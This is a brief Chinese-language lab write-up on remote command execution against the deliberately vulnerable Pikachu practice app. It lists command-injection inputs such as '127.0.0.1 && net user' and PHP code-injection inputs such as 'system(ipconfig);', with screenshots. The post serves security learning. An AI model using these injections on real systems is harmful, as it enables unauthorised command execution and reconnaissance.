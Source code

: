 ```yaml
---
layout: post
title:  RCE(remote command execute)
date: 2021-06-28 14:45 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 命令注入(pikachu-labs-exec "ping")](#0x0-命令注入pikachu-labs-exec-ping)
- [0x1 代码注入(pikachu-labs-exec "eval")](#0x1-代码注入pikachu-labs-exec-eval)

<!-- /TOC -->
## 0x0 命令注入(pikachu-labs-exec "ping")

`正常输入IP地址127.0.0.1`
![](/images/20210628-1.png)
`输入IP地址127.0.0.1 && net user`
![](/images/20210628-2.png)
`127.0.0.1 && ipconfig`
![](/images/20210628-3.png)

## 0x1 代码注入(pikachu-labs-exec "eval")

`phpinfo();`
![](/images/20210628-4.png)
`echo(111111);`
![](/images/20210628-5.png)
`system(ipconfig);`
![](/images/20210628-6.png)